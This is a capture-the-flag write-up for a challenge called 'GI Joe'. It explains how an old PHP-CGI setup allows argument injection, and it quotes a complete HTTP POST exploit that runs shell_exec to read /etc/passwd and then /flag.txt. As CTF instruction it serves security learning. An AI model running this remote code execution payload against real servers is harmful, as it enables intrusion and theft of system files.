

## GI Joe write up 

There is a /cgi-bin/ and the apache and php is old so I decide to look for vulns
I run nikto and it shows is vulnerable to /?-s this shows the source code of index.php
In the source code we can read that the flag is at /flag.txt
Searching for the vulnerablility I found this post https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/

In the post they explain how to leverage the -d to execute php code with a post request:

```
POST /?-dallow_url_include%3d1+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: jh2i.com:50008
Content-Type: application/x-www-form-urlencoded
Content-Length: 66


<?php $output = shell_exec('cat /etc/passwd');echo "$output"; die;
```



So In order to get the flag we need to execute ``<?php $output = shell_exec('cat /flag.txt');echo "$output"; die;``
